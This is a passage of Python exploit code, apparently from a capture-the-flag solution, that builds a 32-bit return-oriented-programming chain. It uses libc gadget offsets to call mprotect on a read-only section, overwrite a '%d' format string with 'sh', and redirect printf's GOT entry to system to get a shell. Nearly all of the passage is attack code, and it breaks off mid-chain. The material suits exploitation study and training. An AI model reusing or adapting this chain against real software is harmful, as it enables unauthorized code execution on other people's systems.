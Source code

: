 ```python
    rop.raw(POP_EAX)
    rop.raw(0xffffff7f)
    rop.raw(XOR_EAX_FFFFFFFF)
    # TZCNT counts trailing 0's, then adds them
    # Get 0x80 into EDX, TZCNT should set it to 7
    rop.raw(MOV_EDX_EAX)

    # Get page of '%d' address into ebx
    rop.raw(POP_EBX)
    rop.raw(page-1)
    rop.raw(INC_EBX)

    # Get 0x7d into eax (mprotect)
    rop.raw(POP_EAX)
    rop.raw(0xffffff82)
    rop.raw(XOR_EAX_FFFFFFFF)

    # Make mprotect syscall
    rop.raw(SYSCALL)


# Mangles edx, ecx, eax
def arb_write(rop, val, dst, next_gadget):
    FILL = 'AAAA'
    POP_EAX = 0x0002ed92 + libc.address
    POP_ECX_POP_EDX = 0x00037374 + libc.address # pop ecx; pop edx; ret
    WR = 0x000f772a + libc.address # mov dword ptr [eax], ecx; mov eax, edx; ret;

    rop.raw(POP_EAX)
    rop.raw(dst)
    rop.raw(POP_ECX_POP_EDX)
    rop.raw(val)
    rop.raw(FILL)
    rop.raw(WR)
    rop.raw(next_gadget)
    

# mprotect to make '%d' string area writeable
# write 'sssh' to '%d' loc-2 (thereby pushing sh into string)
# finally, overwrite 'printf' got entry with addr of system
# ???
# profit

def gen_rop():
    global rop
    POP_EAX = 0x0002ed92 + libc.address
    JMP_EAX = 0x000218e7 + libc.address
    SYSTEM = 0x48170 + libc.address 
    STR_ADDR = 0x0804a008
    NOP = 0x0002fce8 + libc.address # nop; ret
    FILL = 'AAAA'

    # Move stack address containing rop chain (for strpcy)
    rop.raw(0xffffd522)

    # Need some fill to offset start of rop chain in the stack
    rop.raw(FILL * 258)

    # mprotect on the rodata section
    call_mprotect(rop, 0x0804a000)
    # Replace global '%d' with 'sh'
    arb_write(rop, 'sssh', STR_ADDR-2, NOP)

```